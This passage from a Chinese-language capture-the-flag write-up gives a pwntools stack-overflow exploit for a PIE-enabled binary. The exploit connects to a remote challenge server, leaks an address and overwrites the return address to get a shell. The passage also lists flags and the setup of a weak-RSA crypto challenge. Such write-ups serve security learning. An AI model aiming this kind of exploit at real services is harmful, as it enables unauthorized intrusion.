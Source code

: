 flag{6XqbzirmJmaSZdUP1egiCeoQ}

## 送flag

也是栈溢出，只不过保护机制多开了一个ELF随机地址

脚本如下

```
from pwn import *
context.log_level = 'debug'
#p=process('./song')
p=remote('43.248.98.206',10050)
p.recvuntil(b":")
m=p.recv(14)
c=str(m, encoding="utf-8")
sys=int(c,16)-0x14
payload=b'a'*(0x40+8)+p64(sys)
p.sendline(payload)
p.interactive()
```

hsctf{Z2l2ZXlvdWFmbGFn}

# CRYPTO

## baigeiRSA

> 白给了，白给了，真白给！

题目如下

```
import libnum
from Crypto.Util import number
from secret import flag

size = 128
e = 65537
p = number.getPrime(size)
q = number.getPrime(size)
n = p*q

m = libnum.s2n(flag)
c = pow(m, e, n)

print('n = %d' % n)
print('c = %d' % c)

```

```
n = 88503001447845031603457048661635807319447136634748350130947825183012205093541
c = 40876621398366534035989065383910105526025410999058860023908252093679681817257

```
